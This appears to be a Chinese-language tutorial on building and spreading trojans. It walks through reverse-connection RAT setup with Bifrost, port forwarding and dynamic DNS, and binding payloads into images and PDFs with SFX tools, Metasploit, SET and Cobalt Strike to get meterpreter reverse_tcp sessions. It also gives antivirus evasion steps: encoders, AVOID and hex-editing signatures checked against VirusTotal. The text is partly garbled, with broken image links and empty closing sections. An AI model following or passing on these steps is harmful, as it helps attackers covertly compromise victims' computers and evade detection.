

木马是一个携带了恶意程序的良好程序。当客户端下载良好程序时，它会同时下载木马程序，这样黑客就可以访问该机器。

### c) 显性通道与隐蔽通道

 显性通道意味着任何程序运行时都会在其与系统之间建立通道。隐蔽通道则意味着程序将以错误的方向使用通道来访问机器。

### d) 不同类型的木马

 

### e) 反向连接木马是如何工作的 

黑客电脑上的木马程序会创建一个创建一个安装在客户端电脑上的服务器。在反向连接技术中，客户端电脑上的服务器将连接到黑客机器上的木马程序。我们面临的问题是黑客需要一个持续的真实 IP，而 Windows Trojans  工具有 `Bifrost` 和 `Poison Ivy`。我们必须进行端口转发和动态 DNS。回到基础，然后在路由器配置网站中进行 NAT。选择起始结束端口号以及黑客电脑的内部 IP。我们需要将黑客电脑的 IP 设为静态，并与路由器配置中的 IP 一致。这意味着如果路由器通过端口 `81` 访问真实 IP，它必须将其转发到内部 IP 为 `192.168.1.150` 端口为 `81` 的黑客电脑。

问题是路由器的真实 IP 不是固定的会变化。解决方案是购买真实 IP。要购买真实 IP，我们需要为黑客注册电话线路。因此更好的解决方案是在动态 DNS 服务器上注册动态域名。该域名将指向路由器的真实 IP。如果真实 IP 变化，路由器将更改动态 DNS 服务器中的数据。客户端木马将与动态 DNS 服务器连接，并告诉它路由器的真实 IP。因此木马通过木马程序中指定的端口连接到路由器，路由器会将端口转发到黑客电脑 

`no-ip.com` 网站可以提供动态 DNS。注册，然后选择添加主机。在黑客电脑上下载并设置 `no-ip` 程序   你可以利用路由器中称为动态 dns 的属性  在 `dyndns.com` 注册账户并将注册信息放入路由器配置中。当路由器重启时，它将在动态 DNS 中注册其 IP。我们可以使用 VPS 机器。VPS 将拥有真实 IP，它是直接连接到互联网的设备，我们通过它运行木马程序。客户端木马服务器将对此真实 IP 进行反向连接，这样真实 IP 就不会改变，且 VPS 24 小时在线。

### f) Windows 木马工具

 下载 `bifrost`。`bifrost` 体积小且接受多种加密方式。进行注册。在路由器上进行端口转发  然后进入 `bifrost stub customizer` 并按照以下设置生成木马。生成的文件将是 `Customized`.image-5ydz648w.jpg) 打开程序 `bifrost`。输入动态 dns 名称和木马程序运行所需的端口号   我们将自定义文件放在想要操作的机器上。

### j) 打封装

是将程序与图片合并，这样客户端就不会怀疑是木马了。  在 Bifrost 中创建服务器。使用单播 sfx 编译器将木马和图片合并  

你可以使用 `kabo icon changer` 来更改图标  你也可以使用 `winrar` 或 `iexpress`。

### k) 通过 Metasploit 打封装

 我们使用以下利用程序：

 在 `msfconsole` 中生成载荷。给 `LHOST` 指定黑客电脑的 DNS 名称，给 `LPORT` 指定我们希望木马程序监听的端口、文件名，以及我们想要与载荷合并的 `pdf` 文件。

 运行多重处理器（multi handler）。向其提供载荷信息。用 `pdf` 文件感染客户端，你将进入 `meterpreter session`。

 

#### 通过 Set 工具打封装

```bash
./se-toolkit
```

选择 1 进行社会工程攻击。 选择 3 进行感染媒介生成器 选择 1 进行文件格式利用 

填入载荷用于反向连接的 IP。选择 11 进行嵌入 `pdf exe` 社会工程攻击  选择载荷类型为 2，即 `windows meterpreter reverse_tcp`  输入监听器的 IP 和端口号 你将在 `/root/pentest/exploits/set/autorun/template.pdf` 找到该文件，那里有一个 `autorun.inf` 文件。在客户端电脑中获取该文件并运行。`meterpreter session` 将会打开。


### l) 使用 Linux 打封装

Coalt Strike 在可以封装方面比 Armitage 更好  生成 `exe` 文件。搜索 `windows/meterpreter/reverse_tcp` 载荷。填入监听器的 IP 和端口号。生成 `exe` 文件  

要在多重处理器中工作，选择相同的载荷并填相同的监听器 IP 和端口号。选择输出为 multi handler  要与 `pdf` 文件合并，进入菜单：attacks、packages、adobe pdf。选择 `pdf` 文件和服务器文件 

当你在客户端机器上运行感染文件时，你将看到它 

### m) 对木马以防杀毒软件检测

 杀毒软件在检测任何病毒、恶意软件或木马时，可以通过两种方式工作：基于签名或基于行为。杀毒软件拥有一个包含代码的数据库，当它在扫描的文件中发现这些代码时，它就会识别出那是某个名称的木马或病毒。基于行为的检测则可以查看程序运行时的行为。通过程序的行为，它可以检测其是否为病毒或木马。大多数程序是基于签名的工作，有些是基于行为的。

有些网站提供多引擎病毒扫描功能，可以使用多种杀毒软件扫描任何文件。`Virustotal.com` 可以用 46 种引擎进行扫描 你可以加密木马并在 `virustotal.com` 中扫描它，但那会让杀毒软件通过 `virustotal.com` 检测到你的木马。使用 `xencode` 程序对程序 `customized.exe` 进行编码。

 你可以使用 `hex workshop` 程序对文件加密。通过试错查找包含病毒签名的部分并修改其中的一个字母，这样文件就不会被杀毒软件检测。

### n) 在 Metasploit 中编码

 Metasploit 有一些我们在生成载荷时可以使用的编码器。要查看 metasploit 中的编码器，输入：

```bash
msfconsole
Msf> use payload/windows/meterpreter/reverse_tcp
Msf> show encoders
```

最好的是 `x86/shikata_gani`。使用该编码器生成载荷：


```bash
MSf> generate –t exe –f Mahmoud –e x86/shikata_gani
```


### 下载 armitage

```bash
apt-get install armitage
```

### 启动 sql 服务

```bash
service postgresql start
```

### 启动 `armitage`

进入 windows 然后 meterpreter 然后 reverse_tcp 选择编码器以及 `LHOST` 和 `LPORT`，它们是黑客机器监听载荷的 IP 地址和端口。选择输出文件为 `exe` 文件


在 `virustotal` 中扫描文件> 你看到它被 35 个杀毒软件检测到


我们可以使用 `AVOID` 脚本进行加密。我们需要先安装 `mingw32`。运行 shell 并向其提供必要信息，你将在 autorun 文件夹中获得木马


当我们扫描文件时，发现它被 46 个杀毒软件中的 16 个检测到。

### 病毒与虫

#### 病毒


#### 虫


#### 病毒类型


#### 制作虫和病毒的一些工具


#### JPS 病毒制作器


